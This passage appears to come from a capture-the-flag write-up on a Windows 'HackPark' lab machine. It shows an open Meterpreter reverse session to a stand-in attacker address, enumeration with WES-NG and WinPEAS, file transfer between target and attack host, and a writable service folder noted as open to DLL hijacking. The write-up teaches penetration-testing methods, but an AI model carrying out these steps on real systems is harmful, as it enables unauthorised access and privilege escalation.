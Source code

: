 \[\*] Meterpreter session 1 opened (ATTACKER\_IP:4446 -> TARGET\_IP:49294) at 2024-02-26 11:49:46 +0000

getuid

Server username: IIS APPPOOL\Blog

**6. Use meterpreter session to enumerate target to identify potential vulnerabilities.**

* Run[ WES-NG: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) script to quickly identify obvious vulnerabilities.
  * Runs on attack host to avoid making unnecessary noise on target that can attract attention.

1. Clone GitHub respository.

git clone https://github.com/bitsadmin/wesng --depth 1

1. Obtain latest database of vulnerabilities.

* Database used to check for missing patches that can result in vulnerabilities allowing elevation of privileges on target.

wes.py --update

1. Use Windows systeminfo.exe on target to check for missing patches.

shell

systeminfo.exe > systeminfo.txt

1. Download systeminfo file to attack host.

exit

download ./systeminfo.txt /root/Desktop/HackPark

1. Feed system information into WES-NG script.

./wesng/wes.py systeminfo.txt > wesng.txt

**7. Use WinPEAS for further enumeration.**

* Download WinPEAS to attack host.

wget https://github.com/carlospolop/PEASS-ng/releases/download/20240225-d29d697a/winPEASx64.exe

* Upload WinPEAS to target and execute script.

upload /root/Desktop/HackPark/winPEASx64.exe

shell

.\winPEASx64.exe servicesinfo > winpeas.txt

type winpeas.txt

* "WindowsScheduler" service running with "SystemScheduler" folder writable for Everyone.

WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)\[C:\PROGRA\~2\SYSTEM\~1\WService.exe] - Auto - Running

File Permissions: Everyone \[WriteData/CreateFiles]

Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone \[WriteData/CreateFiles])
